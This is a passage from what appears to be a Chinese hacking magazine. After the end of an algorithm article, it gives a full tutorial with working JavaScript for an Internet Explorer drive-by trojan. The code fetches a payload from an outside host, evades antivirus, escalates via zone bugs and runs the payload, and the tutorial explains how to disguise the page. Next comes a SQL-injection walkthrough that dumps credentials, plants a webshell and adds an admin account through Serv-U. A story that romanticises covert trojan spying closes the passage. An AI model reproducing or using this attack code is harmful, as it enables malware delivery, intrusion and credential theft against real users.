不客气地说，国内很多共享软件作者都不懂一些基本的破解知识，花很多时间做出加密方案其实不堪一击！国内的水平同国外相比较，不在一个档次上，故国内软件一经推出，就惨遭 Crack。长此以往，挫伤了共享软件作者继续开发的积极性，这导致了国内软件整体水平不如国外软件的现象。其实，加密和破解之间的直接关系非常大，懂破解起码可以测试一下自己的加密强度。我们推出“密界寻踪”也是这个目的，希望通过对软件保护的“破”，来研究出好的“防”，从而达到真正保护国产软件版权的目的！

（上接第49页）

```c
counter1=0;
counter2=0;
}
else
{
    i=1;
    j=((counter1+counter2*32));
    j++;
    counter1=0;
    counter2=0;
}
// 如果 i 等于 17，说明对子串的搜索已经走到尽头，并搜索到了子串，跳出循环。
if(i==17) break;
}
```

如果需要使用这个算法进行特征码的查找，可以直接将其中的计算 next 数组和模式匹配的部分进行移植。

到这里，基本上将要说的都说完了，可能大家对这个算法还是有一些迷惑。如果对其正确性有疑问的话，可以使用上面的程序，对不同的子串和被搜索串进行操作。另外，如果对 next 数组不太了解，还是建议大家找出教材来好好看一下。本算法的效率是比较高的，至于它的计算复杂度，我想在这里我就不能做过多的说明了。有兴趣的读者，或者从事反病毒研究的读者，希望能对你们有一定的帮助。同时，如果有不对的地方，可以在黑防的论坛上面提一下，以期获得改进。

### 后记

对于一个真正的程序员来说，其任务决不应该仅仅只是机械地拖拖控件、动动鼠标，更重要的应该是编程开始前对软件的整体安排和设计，而相关算法设计也应该是非常重要的一部分。对于一个扫描软件来说，其扫描算法的设计也定是其精华所在。本文专门对算法进行相关分析，希望能够对大家有所启发。

脚本小子：大家好，我是新兵训练营的营长，下面我们一起来打造一个完美的 IE 网页木马。说起网页木马，杂志以前刊登了不少网页木马的相关文章，但各种网页木马总有这样或那样的缺憾，各位黑友依葫芦画瓢，有时候根本就行不通。既然有那么多黑友渴望玩网页木马，新兵训练营的宗旨就是将菜鸟新兵提携成独当一面的网络特种兵！所以，今天让我们来打造一个完美的 IE 网页木马！准备好了吗？Let's go!

## 一起打造完美的 IE 网页木马

文／图 icyfoxlovelace／冰狐浪子

## IE 网页木马的四个特征

既然要打造完美的 IE 网页木马，首先就必须给我们的完美制定一个标准，我个人认为一个完美的 IE 网页木马至少应具备下列 4 项特征：

- 1. 可以躲过杀毒软件的追杀
- 2. 可以避开网络防火墙的报警
- 3. 能够适用于多数的 Windows 操作系统（主要包括 Win9X/Me/2000/XP/2003）中的多数 IE 版本（主要包括 IE 5.x、IE 6.0），最好能打到 SP 补丁；
- 4. 让浏览者不容易发现 IE 变化，从而可以长久不被发现。

注意：以上 4 点只是指网页木马而言，不包括你的木马程序，也就是说我们的网页木马只负责载入运行指定的木马程序。至于你的木马程序的好坏只有你自己去选择啦。

满足以上 4 点，我想才可以让你的马儿更青春更长久，跑得更欢更快……

看了上面的几点，你是不是已经心动？别急，我们还是先看看现有的各种 IE 网页木马的不足吧！

## 现有 IE 网页木马的不足

第一种：利用古老的 MIME 漏洞的 IE 网页木马

这种木马现在还在流行，但因为此漏洞太过古老且适用的 IE 版本较少，而当时影响又太大，补丁差不多都补上啦，因此这种木马的种植成功率比较低。

第二种：利用 com.ms.activeX.ActiveXComponent 漏洞，结合 WSH 及 FSO 控件的 IE 网页木马。虽然 com.ms.activeX.ActiveXComponent 漏洞广泛存在于多数 IE 版本中，是一个比较好的漏洞，利用价值非常高，但却因为它结合了流行的病毒调用的 WSH 及 FSO 控件，使其虽说可以避开网络防火墙的报警，可逃不脱杀毒软件的追捕（如诺顿）。

第三种：利用 OBJECT 对象类型确认漏洞（Object Data Remote）并结合 WSH 及 FSO 控件的 IE 网页木马（典型的代表有动鲨网页木马生成器）。此种木马最大的优点是适应的 IE 版本多，且漏洞较新，但却有如下不足：

- 1. 因为此漏洞要调用 Mshta.exe 来访问网络下载木马程序，所以会引起防火墙报警（如天网防火墙）；
- 2. 如果此 IE 网页木马又利用了 WSH 及 FSO 控件，同样逃不脱杀毒软件的追捕（如诺顿），而动鲨网页木马又恰恰使用了 WSH 及 FSO 控件，叹口气……
- 3. 再有就是这个漏洞需要网页服务器支持动态网页，如 ASP、JSP、CGI 等，这就影响了它的发挥，毕竟现在的免费稳定的动态网页空间是少之又少。虽说此漏洞也可利用邮件 MIME 的形式（见我在《安全焦点》上发表的文章《由错误 MIME 漏洞的利用想到——IE Object Data 数据远程执行漏洞的利用》http://www.xfocus.net/articles/200309/607.html）来利用，但经测试发现对 IE 6.0 不起作用。

看到上面的分析你是不是有了这种感觉：千军易得，一将难求，马儿成群，奈何千里马难寻！别急，下面让我们带着大家一起打造我心中的完美 IE 网页木马。

## 打造完美的 IE 网页木马

首先要躲过杀毒软件的追杀，我们就不能利用 WSH 和 FSO 控件，因为只要利用了 WSH 和 FSO 控件就一定逃不脱“诺顿”的追杀，这可叫我们该如何是好？别急，经过我的努力工作（说真的我也是在研究 ASP 木马时偶然发现的灵感），终于我又找到了一个可以用的控件，那就是 shell.application，并且它可是经过了安全认证的，可以在“我的电脑”域中的网页中畅通无阻地执行，比 WSH 和 FSO 更容易得到执行权限（利用跨域漏洞即可），请看下面 javascript 代码：

```javascript
<SCRIPT LANGUAGE="JavaScript" type="text/JavaScript">
var shell=new ActiveXObject("shell.application");
shell.namespace("c:\\Windows\\").items().item("Notepad.exe").invokeverb();
</SCRIPT>
```

保存为 test.html 后打开看是否自动打开了记事本程序，而且不会像 WSH 和 FSO 那样出现是否允许运行的提示框，是不是有点兴趣啦？现在我们已可以运行所有已知路径的程序，但我们要求运行我们自己的木马程序，所以还要求把我们的木马程序下载到浏览者的电脑上并找出它的位置。我们一个个来解决。

- 1. 下载木马程序到浏览者的电脑中

这一点可以有很多解决方法，比如我以前提到的 Windows 帮助文件访问协议下载任意文件漏洞（its:），不过这次我们不用它，再教大家两个更好的下载方法：

例一：利用 SCRIPT 标签，代码如下：

```html
<SCRIPT LANGUAGE="icyfoxlovelace" src="http://www.godog.y365.com/wodemuma/icyfox.bat"></SCRIPT>
```

注意此处的 LANGUAGE 属性可以为除 JavaScript、VBScript、JScript 以外的字符串，也可以是汉字，至于 src 的属性当然是你的木马程序的地址啦！因为现在免费空间出于安全考虑，多数不允许上传 exe 文件，我们可以变通一下把扩展名 exe 改为 bat 或 pif、scr、com，同样可以运行。

例二：利用 LINK 标签，代码如下：

```html
<LINK href="http://www.godog.y365.com/wodemuma/icyfox.bat" rel=stylesheet type=text/css>
```

把代码放在标签 `<HEAD></HEAD>` 中间，href 属性值为木马程序的地址。

上面两个是我所知的最好的两种下载木马程序的方法，它们下载后的程序都保存在 IE 临时目录 Temporary Internet Files 下的子目录中。

- 2. 找出已下载到浏览者的电脑中的木马程序路径

我们可以利用 shell.application 控件的一些属性和方法，并结合 js 的错误处理 try{}catch(e){}finally{} 语句，进行递归调用来找到木马程序的路径，代码如下：

```javascript
function icyfoxlovelace(){
// 得到 Windows 系统目录和系统盘
url=document.location.href;
xtmu=url.substring(6,url.indexOf("\\",9)+1);
xtp=url.substr(6,3);
var shell=new ActiveXObject("shell.application");
var runbz=1;
// 此处设置木马程序的大小，以字节为单位
// 请把 198201 改为你的木马程序的实际大小
var exeSize=198201;
// 设置木马程序名及扩展名(exe,com,bat,pif,scr)，用于判断是否是所下载的木马程序
// 请把下面两个中的 icyfox 改为你的木马程序名，bat 改为你的木马程序的扩展名
var a=/icyfox\d*\.bat/gis;
a.compile("icyfox\\\\d*\\\\.bat", "gi")
var b=/[A-Za-z]:\\/gi;
b.compile("[A-Za-z]:\\\\", "gi") // 正则表达式，用于判断是否是盘的根目录
// 下面的代码查找并运行木马程序
wj(xtmu+"Temporary Internet Files\\") // Content.IE5\\
if(runbz)wj(xtp+"Documents and Settings\\")
if(runbz)yp();
// 在所有硬盘分区下查找并运行木马程序
function yp(){
    try{
        var c=new Enumerator(shell.namespace("c:\\").ParentFolder.Items());
        for (;!c.atEnd();c.moveNext()){
            if(runbz){if(b.test(c.item().path))wj(c.item().path);}
            else break;
        }
    }catch(e){}
}

// 利用递归在指定目录（包括子目录）下查找并运行木马程序
function wj(b){
    try{
        var c=new Enumerator(shell.namespace(b).Items());
        for (;!c.atEnd();c.moveNext()){
            if(runbz&&c.item().Size==exeSize&&a.test(c.item().path)){
                var f=c.item().path;
                var v=f.lastIndexOf("\\")+1;
                try{
                    shell.namespace(f.substring(0,v)).items().item(f.substr(v)).invokeVerb(); // 运行木马程序
                    runbz=0;
                    break;
                }catch(e){}
            }
            if(!c.item().Size)wj(c.item().path+"\\"); // 如果是子目录则递归调用
        }
    }catch(e){}
}

icyfoxlovelace()
```

请把以上代码保存为 icyfox.js。

接下来，我们就要利用一个小小跨域执行漏洞，来获得“我的电脑”域的网页权限，大家以前是不是和我一样觉得这种漏洞仅仅只能用来进行跨站脚本攻击，得到 COOKIE 之类的东西呢？这次它终于可以露脸啦！代码如下：

```html
<HTML>
<HEAD>
<META http-equiv=Content-Type content="text/html; charset=gb2312">
<TITLE>冰狐浪子网络技术实验室的完美 IE 网页木马</TITLE>
</HEAD>
<BODY oncontextmenu="return false" onselectstart="return false" scroll="no" topmargin="0" leftmargin="0">
<SCRIPT LANGUAGE="icyfoxlovelace" src="http://www.godog.y365.com/wodemuma/icyfox.bat"></SCRIPT>
<SCRIPT LANGUAGE="JavaScript">
// 此处设置上面 icyfox.js 文件的网络地址
// 请把 http://www.godog.y365.com/wodemuma/icyfox.js 改为你的 icyfox.js 文件实际上载地址
jsurl="http://www.godog.y365.com/wodemuma/icyfox.js".replace(/\//g,'\\')
WIE=navigator.appVersion
if(WIE.indexOf('MSIE 5.0')>-1){
/* IE 5.0 利用 iframe 标签，src 属性设为 icyfox://，则会使此标签具备“我的电脑”域的权限，原因是因为 icyfox:// 是不存在的协议，所以会让 IE 利用 res:// 协议打开 SHDOCLC.DLL 中的语法错误页 syntax.htm，而且 SHDOCLC.DLL 又位于系统目录中，为在 icyfox.js 中得到 WINDOWS 系统目录和系统盘提供数据。 */
document.write('<iframe style="display:none" name="icyfoxlovelace" src="icyfox://"></iframe>')
setTimeout("muma0()",1000);
}
else {
/* IE 5.5、IE 6.0 则利用 _search_ 漏洞，把打开的地址设为 icyfox://，从而使 _search 搜索框具备“我的电脑”域的权限，因为在 IE 6.0 中无法用上面的 iframe 漏洞，IE 5.5 应该可以用，我没有测试。这样做的结果会打开搜索栏，有点遗憾！ */
window.open("icyfox://","_search")
setTimeout("muma1()",1000)
}

// 下面利用 file:javascript: 协议漏洞在已是“我的电脑”域权限的“icyfox://”中插入 icyfox.js 脚本并运行：
function muma0(){
    window.open("file:javascript:document.all.tags('SCRIPT')[0].src='"+jsurl+"';eval()", "icyfoxlovelace");
}

function muma1(){
    window.open("file:javascript:document.all.tags('SCRIPT')[0].src='"+jsurl+"';eval()", "_search");
}
</SCRIPT>
</BODY>
<NOSCRIPT><iframe style="display:none;" src="*.*"></iframe></NOSCRIPT>
</HTML>
```

把上面的代码保存为 icyfox.htm，如果你愿意可以把扩展名改为 jpg 并在网页中加入一个精美的图片背景，来做一个图片木马，甚至你可以改为 exe，来冒充一个好的程序的下载地址，并在网页的 `<HEAD></HEAD>` 中加入标签 `<meta http-equiv="refresh" content="5;url='http://www.godog.y365.com/winrar.exe'">` 来定时转到另一个真正的程序下载地址，从而更好地欺骗别人。

看到上面的东东是不是让你有了马上去实验的冲动？别急，如果你觉得 Win98 没必要控制的话，还有更好的木马等着你，不知大家是否用过 Win2000、WinXP 等系统中默认安装的 ADODB.Stream 及 Microsoft.XMLHTTP 控件？它们可是和 shell.application 控件一样是经过了安全认证的，可以在“我的电脑”域中的网页中畅通无阻执行的好东西呀！请看下面的代码。

```javascript
function icyfox(){
// 设置下载后保存在系统目录下的木马程序名。
// 我设的是不是很像 Explorer.exe 呀？呵呵
var name='Explorer.exe';
// 设置你要下载的木马程序的地址（当然你可以把扩展名任意改，甚至没有扩展名也可以的）
// 可以更好地躲过免费主页空间的上传限制
var url='http://www.godog.y365.com/wodemuma/icyfox.bat';
try{
    var folder=document.location.href;
    folder=folder.substring(6,folder.indexOf('\\',9)+1)+name;
    var xml=new ActiveXObject("Microsoft.XMLHTTP");
    xml.open("GET",url,false);
    xml.send();
    if(xml.status==200){
        var ado=new ActiveXObject("ADODB.Stream");
        ado.Type=1;
        ado.Open();
        ado.write(xml.responseBody);
        ado.SaveToFile(folder,2);
        ado.Close();
        ado=null;
    }
    xml=null;
    document.body.insertAdjacentHTML('AfterBegin','<OBJECT style="display:none" TYPE="application/x-oleobject" CODEBASE="'+folder+'"></OBJECT>');
}catch(e){}
}

icyfox();
```

把上面的代码保存为 jcyfox.js，替换上面保存的 icyfox.js 文件，同样利用上面的 icyfox.htm 来注入到“我的电脑”域中，呵呵你就偷着乐吧！

最后，还请大家发挥一下 DIY 的能力把上面两种代码合二为一，我相信一个现阶段最最完美的 IE 网页木马就会在你手中诞生啦！是不是神不知鬼不觉？提示代码如下：

```javascript
try{new ActiveXObject("ADODB.Stream");icyfox();}catch(e){icyfoxlovelace();}
```

呵呵……很晚啦，我要睡觉去啦，886~~

【编后】看毕此文后，唐本小子来了兴趣，让冰狐浪子做了一个测试页面：“为了让广大朋友放心，此处所运行的程序不是木马！”想见识这匹完美 IE 网页木马的威力吗？去看看这个 URL 吧：http://www.godog.y365.com/runexe/icyfox.htm，锵锵锵，天下的马儿任我挑，锵锵锵，天下的鸡鸡任我抓……BD

脚本小子：常有人在网上进行电影网站的破解尝试，但往往遇到一个挫折后就会放弃渗透。今天脚本小子为大家送上一篇不可多得的文章，希望大家看了能有一些启发，脚本小子自己看完后就学到了很多！大家不要错过哦！

难度等级：低级

前置知识：SQL 注入技巧，Serv-U 权限提升

## 一金蝉 + N个脑细胞 = 成功取得服务器权限！

文／图 styxfox

如今宽带网络发展的非常快，一般网民都使用上了宽带。本人前一段时间刚装了 ADSL，感觉非常 HAPPY，装完宽带以后我最喜欢做的事情就是闲余时间看看电影。现在国内电影网站多如牛毛，但真正速度快而且片子全的屈指可数。前几天网络上的一个朋友介绍给我一个电影网站 www.xxx.com（不能说出实际 URL 哦！）这个站看起来规模不小。他说他朋友是这个站的站长，想请我做一下安全测试，还有奖品呢：终身免费的黄金会员账号（脚本小子：入侵还有奖品，呵呵“看来攻防实验室的影响也渐渐扩大了！不错！”）。没办法，实在想看免费的电影，我就决定应邀为这个电影网站做一下安全测试。

### 踩点及基本分析

首先，还是请出我的最爱 Scanner3.0 进行端口扫描，扫描信息如下：

```text
+ 202.xxx.xxx.xxx
│
├── 21  File Transfer Protocol [Control]
│   └── 220 Serv-U FTP Server v4.0 for WinSock ready.....
│
└── 25  Simple Mail Transfer
    └── 220 ESMTP on WebEasyMail
```

```text
[3.5.0.3] ready.
│
├── 53  Domain Name Server
│
├── 80  World Wide Web HTTP
│   └── HTTP/1.1 200 OK..Server: Microsoft-IIS/5.0..Date: Mon, 12 Jan 2004 23:34:36 GMT..Connection: Keep-Alive..Content-Length: 130373
│
└── 5631  pcANYWHEREdata
    └── .X..}..........

<Enter>.....
```

从扫描结果可以看出来这个电影网站开放的端口很典型。看开放端口可以看出主机为 Win2K。Web 系统使用的是 Win2K 自带的 IIS 5.0，现在 99% 的主机都安装了 SP4 补丁，所以我就没做溢出实验。

### 脚本注入

我直接决定去该站的 Web 上走一走，进入这个 www.xxx.com 简单地看了一下，原来该站使用的 Web 系统是“金梅影院”（呵呵，心里一阵坏笑，金梅影院程序漏洞 N 多已经是地球人都知道的事情了！）先测试一下这个影院系统有没有 SQL injection 的毛病，手工探测太累，还是使用工具方便些。

首先，请出对付金梅影院程序的利器“黄金眼”！

好像大家都知道这个东西吧？自动猜解金梅系统的 admin 或 password。随便找一个地址：

http://movie.xxx.com/movie.asp?id=2184

用黄金眼进行自动注入。结果得到全部是空！看来该站修改了数据库中 admin 的默认表和字段，猜了其他几个常用的表比如 admin、login……都没成功。看来对方早有准备，但是我还是有点不甘心，有点怀疑这个软件，所以决定手工再试验试验。没办法，一切都是免费电影惹的祸。

首先在 http://movie.xxx.com/movie.asp?id=2184 后面提交了一个单引号：http://movie.xxx.com/movie.asp?id=2184'，返回 500！汗……看来对方管理员屏蔽掉了 N 多东西。居然返回服务器 500 内部错误，心不甘，继续提交“冒”号、“-”……全部返回服务器 500 内部错误——怪不得人家让我检测，原来做了充分的准备，到现在我还没搞明白该站 Web 的数据库到底是采用 ACCESS 还是 MSSQL SERVER！这个时候我一下子想起来了臭要饭的写的一个小软件可以看到服务器返回的信息（图 1）。

图 1

这次终于看到了！原来是 SQL Server 数据库！正好最近学了臭要饭的发表在黑防上的《Mssql 跨库查询你想怎么玩》，黑防给我的帮助就是大！我可是黑防的忠实 fans！今天正好用这个主机练手，说不定真能看到免费电影呢。

- 在浏览器中输入：  
  http://movie.xxx.com/movie.asp?id=2184  
  and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6)

服务器又一次返回 HTTP 500 内部错误，郁闷啊！这可怎么办？经过一根烟时间的思考我有了新思路，既然臭要饭的那小程序可以看到服务器返回的数据，那我就用这个小软件来实现注入！说干就干……返回信息如图 2 所示。

图 2

这下可完了！居然这个程序也搞不定，现在渗透进入了僵局……但是有一点是肯定的，这个站存在注入点！接下来在 QQ 上求救，加上多方打听仍然没有解决的办法——又经过了 N 根烟时间的思考，脚本小子告诉了我一个好办法：最近有许多人声称发现了“爆”数据库路径的方法！具体办法为构造一个 html 页面，代码如下：

```html
<IFRAME marginWidth=0 marginHeight=0
src="http://www.xxx.com/inc/conn.asp"
frameBorder=0 width=500 scrolling=noshade
height=400></IFRAME>
```

这样可以看到 conn.asp 中的信息，我记得用浏览器直接去请求 conn.asp 就会出现 HTTP 500 服务器内部错误。用这个页面来请求就会看到 conn.asp 文件中的内容，既然这样就说明这个页面能看到服务器返回的信息！现在我的灵感来了（脚本小子 ps：大家注意看歪了），如果我用这个页面配合绕过 HTTP 500 服务器内部错误继续注入会不会成功呢？既然都想到了这儿，马上就动手开始行动！修改 html 中的内容，代码如下：

```html
<IFRAME marginWidth=0 marginHeight=0
src="http://movie.xxx.com/movie.asp?id=2172
and 0<>(select count(*) from master.dbo.
sysdatabases where name>1 and dbid=6)"
frameBorder=0 width=500 scrolling=noshade
height=400></IFRAME>
```

就是把跨库查询的语句加到 src="" 中间，然后把这段代码保存为 tools.htm，本地用浏览器打开，结果如图 3 所示。

图 3

砰！一个库名“爆”到了，库名是 Northwind。接着来，把 7 改成 8 继续爆（我就不再讲原理了，上期杂志臭要饭的写得很详细，我就不占用《黑客防线》宝贵的篇幅了），修改 tools.htm 内容如下：

```text
src=http://movie.xxx.com/movie.asp?
id=2172 and 0<>(select count(*) from master.
dbo.sysdatabases where name>1 and dbid=8),
```

砰，又一个！库名是 ntpostu_bak，好爽，接下来我就不再抓图了。

```text
提交：and 0<>(select count(*) from master.
dbo.sysdatabases where name>1 and dbid=9)
返回：DDVCD
提交：and 0<>(select count(*) from master.
dbo.sysdatabases where name>1 and dbid=10)
……
```

现在所有的库名都出来了！从库名可以看出只有 DDVCD 和 DVBBS 这两个库可以利用，不过我的目的只是看电影，先从 DDVCD 下手，下面开始查询 DDVCD 库中的表（方法同上，也是构造页面来注入，要不然浏览器会返回 HTTP 500 服务器内部错误）。

```text
提交：http://movie.xxx.com/movie.asp?
id=2172 and 0<>(select top 1 count(*) from
DDVCD.dbo.sysobjects where xtype='U' and
name>1)
返回：dtproperties
提交：and 0<>(select top 1 name from
DDVCD.dbo.sysobjects where xtype='U' and
name not in('dtproperties'))
返回：buy
……
```

中间省略（我怕编辑说我有骗稿费之嫌），最后探测出 DDVCD 这个库中一共有 14 个表，分别是：dtproperties、buy、car、count、home、learning、movie、movieurl、netbar、pwdadmin、talk、type、users、vote。从这些表名可以猜到 pwdadmin 这个表可能是管理员账号所在表，接下来查询 pwdadmin 表中的字段，首先查询 pwdadmin 表中字段的 ID 号，提交：

```text
movie.asp?id=2172 and 0<>(select count(*)
from DDVCD.dbo.sysobjects where xtype='U'
and name='pwdadmin' and uid>(str(id)))
```

哈哈，返回 ID 号是：1045578763，接下来查询 pwdadmin 中的字段表。

```text
提交：movie.asp?id=2172 and 0<>(select top
1 name from DDVCD.dbo.syscolumns where
id=1045578763 and name not in('id','name'))
返回：pwd
……
```

下面关键的时刻到了！查询 DDVCD 库中 pwdadmin 表中的 name 字段：

```text
提交：movie.asp?id=2172 and 0<(select id
from DDVCD.dbo.pwdadmin where name>1)
返回：用户名第一个 wtnetmov88
提交：movie.asp?id=2172 and 0<(select id
from DDVCD.dbo.pwdadmin where pwd>1 and
username='wtnetmov88')
返回：mcseccnamov，哈哈，密码出来了！
```

### 渗透及提升权限

查到用户名和密码以后做什么呢？（你说呢，赶快登录管理页面啊！）金梅电影程序我以前也搞过，默认的管理页面为 http://www.xxx.com/login.asp，马上提交，服务器返回找不到该页！……密码白猜了，进不去管理页面！管理员把默认管理页面的路径给改了，接下来我猜了几个都没猜中，这样瞎猜也不是办法啊。又经过了 N 长时间的思考，我的灵感又来了，既然他把管理页面修改了，我可以在本地构造一个登录页面，然后把页面提交到这个电影网站上去。利用我的最爱 www.google.com，不一会儿就找到了其他金梅电影网站的管理页面，然后在本地保存成 html 格式，用记事本打开，查找：`<form method="post" action="FindAccount.asp">` 这段代码（图 4）。

把它改成 `<form method="post" action="http://movie.xxx.com/FindAccount.asp">`，然后保存，打开以后填上刚才注入到的管理员用户名和密码登录，结果如图 5 所示。

这下我可爽了！其实到了这里渗透已经成功了，但这个主机让我产生了不少灵感，我就决定拿到这台主机的 administrator 权限。刚才在爆库的时候有一个叫 DVBBS 的库，说明这个站上安装有动网论坛，马上继续注入，过程我就不说了，跟注射电影系统是一样的……到了最后找到 DVBBS 库中 admin 表中的 username 字段，然后提交：`and 0<(select id from DVBBS.dbo.admin where username>1)`，返回：`admin`（论坛管理员账号）；再提交：

```sql
update DVBBS.dbo.admin set
password='a03ae1ac4083f3fd' where
username='admin';--
```

把 admin 的密码改成 ziHUAN，然后在前台再加一个用户，提升为前台管理员！……大家应该都会，不用我再多说了。然后登录到动网论坛的后台管理，找到论坛注册信息，路径为 inc/reg_txt.asp，把一个我自己专用的 aspshell 写进去，然后点修改，如图 6 所示。

修改以后我就在 http://www.xxx.com/ 上拿到了一个 shell，接下来利用 shell 上传 fpipe.exe，其路径是 `D:\DDVCD\BBS\fpipe.exe`，接下来在 aspshell 中执行（图 7）：

```bash
d:\ddvcd\bbs\fpipe.exe -v -81 -r 43958
127.0.0.1
```

这条命令的意思是把服务器上 127.0.0.1 地址的 43958 映射到 81 端口上，我主要是想利用 Serv-U 提升权限。目前这个办法最好，我每次提升权限都用它。

映射完毕以后在我自己机器上装一个 Serv-U，使用 Serv-U 的远程管理功能连接映射的 81 端口，然后输入 Serv-U 默认的管理员用户：LocalAdministrator，密码 #1@$ak#.lk;0@P，连接，结果如图 8 所示。

以上提升权限方法来自安全焦点 URL，大家可以去参考：http://www.xfocus.net/articles/200312/651.html。

呵呵，明白了吗？原来 Serv-U 的 43958 还有默认的用户和密码，一个字“爽”！目前此法提升权限很好，推荐大家使用，只要一个普通 Shell 即可搞定。到了这里渗透行动就完全结束了，马上给我那个朋友回了个消息，结果他问了我 N 天是如何拿到权限的，简直和唐僧一样！

加了一个用户为 zihuan，密码 ziHUAN，给 zihuan 这个用户设置具备执行权限，接下来在 cmd 下登录电影网的 ftp，执行以下命令：

```text
ftp>open ip
Connected to ip.
220 Serv-U FTP Server v4.1.0.0 for WinSock ready
User (ip:(none)): td
331 User name okay, please send complete E-mail address as password
Password:password    //密码
230 User logged in, proceed.
ftp> cd winnt    //进入 winnt 目录。
250 Directory changed to /WINNT
ftp> cd system32    //进入 system32 目录
250 Directory changed to /WINNT/system32
ftp> quote site exec net.exe user zihuan ziHUAN /add    //利用系统的 net.exe 文件加用户。
200 EXEC command successful (TID=33)
ftp> quote site exec net.exe localgroup administrators zihuan /add    //提升为超级用户
```

### 事件回顾

回顾这次安全测试，其实没什么技术性而言，希望高手看了不要笑。不过我研究出那个绕过 HTTP 500 服务器内部错误继续注射的方法还是不错的，大家可以回去试一下。不过我听说高手还有更好的解决 500 错误继续注射的办法，不过我还不知道，我只研究出了这个办法。我要感谢臭要饭的！老兄研究出这个跨库漏洞和他写的几个小工具。在平时 hacking 有些时候拿到密码找不到后台是可以自己构造的，我的这次安全测试就构造了登录页面成功地进入了后台。最后提醒广大网管朋友一定要看好你的 SQL Server，一定要给不同的数据库分配不同的账号和权限，还是那句话：安全是一个整体！

### 编后语

> 作者语言风趣而幽默，思维严密而谨慎。文章结尾作者故意点出“大家，安全是一个整体！”这点希望大家以后都注意一下。如今电影网站多如牛毛，如何做到网站的安全性，尚需一个漫长的过程。关注电影网站，关注网络安全。如果你也有同样的安全渗透经历，可以给我们投稿：softbug@cdproxy.com。黑客防线欢迎你！

## 倚窗孤屿

蝴蝶：3月了，3月了，温暖的南方应该是春暖花开的季节了。还记得儿时每到三月，大人们总带着我去抓螃蟹，一只只“膘肥体壮”的螃蟹被装进篓子里，满河湾都是人，那般热闹劲啊！简直是……简直是……比鸡腿还美！（众小编：狂晕 ing！“膘肥体壮”也用来形容螃蟹？一只螃蟹二十斤？）后来，迷恋上了网络安全，放弃了很多，不经意间回想起少年时单纯的快乐，忽然间发现原来自己一直快乐着，只是换了一种方式，在自己喜欢的安全领域里工作，同样是非常快乐的；累了，困了，笑了，哭了……一切点滴构成了我们的生活，也挺美——当然，身边的故事总是那么让人感动……

文／田田

### 一

深秋。

华灯初上，窗前城市的点点橙黄和薄雨中的雾霭，街道上繁忙车流的缓鸣以及晚归鸽子的歌唱声，无一不在提醒我，又到了想你的时候了。

遇见你，是我的幸运，爱上你，是否，是我的过错？

让你第一次看到我，是在列车的硬卧车厢上。

你只是静静地看着车厢中的人，看着我，间或去看窗外的风景。在别人看来，也许是你的神情吸引了我，我开始和你搭讪。从交谈中，你说你叫竹。当你知道将和我到达同一个城市，预定的是同一家酒店时，你感叹这是上苍安排的巧合，而当时，我的心脏是很清晰的一跳。

很喜欢看你笑的时候鼻子皱皱的样子，那天，你和我交谈的时候，鼻子就常常地皱一下，而我，忍了又忍，没有伸出手去抚摸。同样的，当你告诉我你是 SOHO 族，在家离不开电脑，而且拥有一个网站，并热心地告诉我网址时，我依旧忍了又忍，对你撒谎说我是不懂计算机的菜鸟。

你问我的名字，我笑笑：“叫我董儿好了。”

萱草是一种美丽的植物，金黄的花朵盛开于夏，亦名无忧。

这个夏天遇见你，我真的会无忧吗？

### 二

来这个城市已经两天了。

酒店窗外的天空始终阴翳，听不到熟悉的鸽哨，只有吵得烦人的蝉声。WALKMAN 中的玛利亚·凯莉在唱着老歌，轻柔的旋律几乎把我揉搓得粉碎。

我早就认识竹了。竹的网站是可以显露出其主人性格的，而我，渐渐喜欢上了竹的天分和竹的酒涡。属于竹的那台电脑也曾被我逐个文件地浏览，用的，是我自己编制的木马。

我被他不羁的眼神和他文章里那些挥洒自如的文字吸引，我养成了在深夜翻看竹的电子相册的习惯。一时间，我认为竹就是我的，我可以随时窥视他的一举一动，可以知道他每天的喜怒哀乐。

竹曾经察觉他的计算机有异样，但我不是那群笨小子，我把所有的手脚都处理得很干净。真正的黑客，是不会留下任何痕迹的。

当年，那匹巨大的木马使特洛伊人惨遭屠城，是因为美丽的海伦；而我植入木马，只是因为我爱上了竹，荼毒的，是我爱竹的心情。

我知道竹习惯在电脑上做所有的事情，也知道他爱着在另一个城市的、叫雅的女孩子。自从一个星期前，我从他的电子邮箱里知道他要出行去见雅、挽回他们的冷战的时候起，就动用了所有我可以动用的朋友，拿到了和竹同一个车厢、同一节包厢的车票，预定了同一座酒店；为的，只是希望距离你近些，再近些。

“萱儿疯了。”所有知道的人都劝我打消见竹的念头，可是我知道我不能。只有这一个机会和竹面对面，而结果将是什么，我已经顾不得了。

## 三

坐20几个小时的火车，就是为了和雅和解，而她，却硬要和你分手，逼得你不得不在酒店里长吁短叹。我是应该诅咒她，还是应该为可以如此近距离地观察你而感谢她？

每晚，我在酒店的大厅里坐看你衣着光鲜地出去见雅，然后一个或两个小时以后垂头丧气地回来。

第一天，你的衣服上有似乎是咖啡泼过的痕迹。

第二天，你的头发凌乱，眼睛有些许红肿。

第三天，你很快就回来了，看到你脸上颓丧的神情，我知道，你和雅之间，结束了。

想上前去安慰你，可你只是略向我打了个招呼，就踏进了电梯。

蓦然惊觉，我是不应知道你和雅的事情的，我所该知道的，只是你叫竹而已。

是的，我不应该知道你对雅的痴心，不应该知道你为雅写了那么多缠绵悱恻的句子，也不应该跟你到这个城市来看你心痛的一幕。在你的眼里，我只是一个陌生的、叫萱儿的女子。

我想过，可以在电梯门口，顺利地扭伤自己的脚，并成功地扑到你的怀里；或者，在房间里发一场轰轰烈烈的高烧，在昏迷中打电话给你，要你像妈妈那样测我的温度，让我的额头感受你冰凉而湿润的唇，然后，开始我们的故事。

但没有，我什么都没有做，萱儿是黑客，但萱儿不趁火打劫，萱儿不忍你失去神采的眼睛再多一层负累。

我只是静静地看你退房，看你拖着行李，游魂一样地走在街上。

## 四

回到家里的最初几天，我没有心思做任何事情。我不愿意与人接触，仿佛任何举动或言谈都会泄露我都仍不安的心情。一个人走在大街上，置身于人海之中的时候，我心底却泛起莫名的孤独，我不知道炽热的阳光下，思绪又游弋到什么地方。

曾经，想用QQ和竹联系，但又不知道对他说什么。一个小时又一个小时，我坐在电脑前发呆，屏幕上映出的，是离开那天竹颓唐而忧郁的眼睛。

终于，打开了你的网站，看到了那几笔熟悉的翠竹；他为雅开辟的版面，依旧美丽得触目惊心。我想寻找竹的心情文字，却发现，他心爱的网站已经一个星期没有管理，站里杂草丛生，垃圾遍地。

而竹，却只缩在角落里不停地打着同一个字：“雅雅雅雅雅雅雅雅雅雅……”

